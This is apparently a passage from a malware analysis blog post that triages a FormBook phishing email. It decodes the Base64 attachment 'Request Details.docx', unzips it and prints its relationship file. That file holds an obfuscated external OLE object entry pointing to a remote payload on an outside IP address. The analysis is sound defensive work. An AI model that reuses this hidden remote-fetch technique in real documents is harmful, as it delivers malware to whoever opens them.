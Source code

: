 ### Testing phase

The first sighting contained an email with a single attachment with a sender of admin0011[@]issratech.com. While researching that email address, we discovered this email address associated with additional malicious samples in VirusTotal. The email observed in this phase included a single attachment called Request Details.docx.

![Testing phase lure email](/assets/images/formbook-adopts-cab-less-approach/testing-phase-lure-email.jpg)

Email attachments are stored as Base64 encoded strings in the email. To extract the Request Details.docx email attachment, we can use the echo command to send the Base64 encoded string to STDOUT, pipe it to the base64 program, and save it as email-attachment so that we can analyze it.

```
$ echo "UEsDBBQAAAAIAFCELVO0gTweZgEAAIgFAAATAAAAW0NvbnRlbnRfVHlwZXNdLnhtbLVUyWrDMBC9F/oPRtdgK+...truncated..." | base64 -D -o email-attachment
```

#### Request Details.docx

The file command is a standard Unix and Unix-like program for identifying a file type. Running the file command, verified that this was a Microsoft Word document:

```
$ file email-attachment
email-attachment: Microsoft Word 2007+
```

Microsoft Office documents, post-2007, are compressed archives. To dig into the document without opening it, you can decompress the file using the unzip command as illustrated below.

```
$ unzip email-attachment
Archive:  email-attachment
    inflating: [Content_Types].xml
    inflating: docProps/app.xml
    inflating: docProps/core.xml
    inflating: word/document.xml
    inflating: word/fontTable.xml
    inflating: word/settings.xml
    inflating: word/styles.xml
    inflating: word/webSettings.xml
    inflating: word/media/image1.jpeg
    inflating: word/media/image2.wmf
    inflating: word/theme/theme1.xml
    inflating: word/_rels/document.xml.rels
    inflating: _rels/.rels
```

Within the document relationship file (word/\_rels/document.xml.rels), we can view metadata about how different elements of the document are related to each other.

```
$ cat word/_rels/document.xml.rels
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
...truncated...
<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"
Target="MHTML:&#x48;&#x54;&#x54;&#x50;&#x3a;&#x5c;&#x5c;&#x31;&#x30;&#x34;&#x2e;&#x32;&#x34;&#x34;&#x2e;&#x37;&#x38;&#x2e;
    &#x31;&#x37;&#x37;&#x5c;&#x50;&#x6f;&#x70;&#x65;&#x2e;&#x74;&#x78;&#x74;&#x21" TargetMode="External"/>
...truncated
</Relationships>
```
